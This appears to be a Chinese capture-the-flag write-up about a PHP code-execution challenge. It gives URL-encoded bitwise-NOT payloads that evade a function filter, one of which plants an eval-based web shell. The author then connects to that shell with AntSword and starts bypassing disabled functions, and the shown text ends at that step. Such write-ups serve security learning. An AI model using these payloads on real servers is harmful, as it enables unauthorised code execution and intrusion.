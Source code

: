 首先我们执行phpinfo()看看

这里的payload

```cobol
?code=(~%8F%97%8F%96%91%99%90)();
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/b245053725dc0f70066013b0e534da20.png" alt="" style="max-height:154px; box-sizing:content-box;" />


过滤了很多函数我们可以使用内置函数 arrest()

这里有一个坑

```scss
assert(phpinfo();)
 
并不会直接执行 
```

我们来尝试一下

```cobol
?code=(~%9E%8D%8D%8C%9A%8B)((~%8F%97%8F%96%91%99%90)();)
 
这里就类似于 assert(phpinfo();)
 
 
 
?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6%D6);
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/f67c1dfaba32b78fdbec6f3c339c28b6.png" alt="" style="max-height:233px; box-sizing:content-box;" />


然后直接用蚁剑链接



<img src="https://i-blog.csdnimg.cn/blog_migrate/b0abfd1f9d18199d7a82c7da46be4420.png" alt="" style="max-height:569px; box-sizing:content-box;" />


但是我们无法读取flag 和readflag也无法 这里我们想到了 之间phpinfo中禁用函数了

这里有两个方法桡骨

## 1.蚁剑插件绕过



<img src="https://i-blog.csdnimg.cn/blog_migrate/846cad0b445bb3617896283545989e49.png" alt="" style="max-height:223px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/93801d22412260887dc1e422eb791a8c.png" alt="" style="max-height:335px; box-sizing:content-box;" />
